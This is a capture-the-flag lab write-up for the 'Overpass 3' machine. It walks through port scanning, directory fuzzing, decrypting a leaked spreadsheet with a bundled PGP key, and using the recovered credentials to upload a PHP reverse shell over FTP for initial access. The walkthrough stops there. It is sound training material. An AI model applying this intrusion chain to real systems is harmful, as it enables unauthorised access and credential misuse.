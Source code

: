 # Overpass 3 - Hosting
---

You know them, you love them, your favourite group of broke computer science students
have another business venture! Show them that they probably should hire someone for 
security...

After Overpass's rocky start in infosec, and the commercial failure of their password
manager and subsequent hack, they've decided to try a new business venture.

Overpass has become a web hosting company!\
Unfortunately, they haven't learned from their past mistakes. Rumour has it, their
main web server is extremely vulnerable.

---

As usual, we start by checking open services on the target machine:
```
$ sudo nmap -sV <target_ip> -Pn -n --disable-arp-ping  

<...snip...>
Host is up (0.042s latency).
Not shown: 986 filtered tcp ports (no-response), 11 filtered tcp ports (admin-prohibited)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
```

We can try connect anonymously to the FTP server, but this doesn't work. We continue
by enumerating the web app:
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://<target_ip>/FUZZ

<...snip...>
.hta                    [Status: 403, Size: 213, Words: 16, Lines: 10, Duration: 41ms]
.htaccess               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 46ms]
.htpasswd               [Status: 403, Size: 218, Words: 16, Lines: 10, Duration: 45ms]
backups                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 38ms]
cgi-bin/                [Status: 403, Size: 217, Words: 16, Lines: 10, Duration: 41ms]
index.html              [Status: 200, Size: 1770, Words: 443, Lines: 37, Duration: 36ms]
:: Progress: [4727/4727] :: Job [1/1] :: 975 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

The backups directory looks interesting.\
There we find an downloadable zip file. This file contains a PGP key and an encrypted `xlsx` document:

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/eb1a77ec-5001-4cd8-b8f1-ca79b8f29e8d)

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/b59e2b4e-c657-45c2-a05f-814279688639)


We can decrypt our `xlsx` file using that key. The process is pretty straight forward:
```
$ gpg --import priv.key

gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:               imported: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                              
$ gpg --decrypt CustomerDetails.xlsx.gpg > CustumerDetails.xlsx
```

Once decrypted, we find that it contains sensitive information about some users.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/8518a7cf-3dc2-4fdd-a342-bfd1c62bccd6)

These credentials are important and in our case can be used to connect to ssh and/or ftp 
servers. That being said, the only credentials that prove to be useful are those belonging
to Paradox. We can use then to connect to FTP. Once connected, we upload a php reverse shell
to the server and then access from the web app:
```
$ ftp paradox@<target_ip>      

Connected to <target_ip>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.

ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||28139|)
150 Ok to send data.
100% |*************************************************|  5492        1.00 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (63.89 KiB/s)
```

Now we got initial access to the machine as the user `apache`. The web flag is at `/usr/share/httpd`.

